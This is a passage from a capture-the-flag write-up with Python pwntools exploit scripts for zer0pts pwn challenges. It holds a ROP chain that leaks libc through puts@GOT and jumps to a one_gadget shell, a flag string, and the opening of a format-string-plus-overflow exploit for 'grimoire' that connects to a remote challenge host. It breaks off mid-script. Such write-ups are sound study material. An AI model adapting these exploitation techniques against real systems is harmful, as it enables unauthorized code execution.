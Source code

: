 ```python
    r.sendlineafter('= ', '0')
r.sendlineafter('= ', '18')
r.sendlineafter('= ', str(stack+8))
r.sendlineafter('= ', str(leave_ret))
r.sendlineafter('= ', '0')

puts_got = 0x601018
puts_plt = 0x400660
payload = p64(buf+0x100) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt)
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(buf) + p64(0) + p64(read_plt)
r.recvline()

r.sendline(payload)
libc = u64(r.recvline().strip().ljust(8, '\x00')) - 0x6f690
log.success('libc: ' + hex(libc))
one_gadget = libc + 0x4526a

r.sendline('A'*0x50 + p64(one_gadget) + '\x00'*0x100)

r.interactive()
```

Flag: `zer0pts{0ops_long_is_8_byt3s_l0ng}`

### grimoire

```
ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b25a8b9761a63b64746b00cc2eaf2d670f730495, not stripped

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Format string vulnerability in `error()`, use this to leak canary, libc, heap, stack, ...

`grimoire_edit()` can be used to overwrite `filepath`.

Open `/dev/stdin` and read 65535 bytes to trigger BOF. Overwrite ret address to one_gadget and get shell.

```python
#!/usr/bin/env python

import sys
from pwn import *

if len(sys.argv) == 1:
    r = process('./chall')
else:
    r = remote('13.231.207.73', 9008)

def openbook():
    r.sendlineafter('> ', '1')

def readbook():
    r.sendlineafter('> ', '2')

def editbook(offset, data, nl=1):
    r.sendlineafter('> ', '3')
    r.sendlineafter('Offset: ', str(offset))
    if nl == 1:
        r.sendlineafter('Text: ', data)
```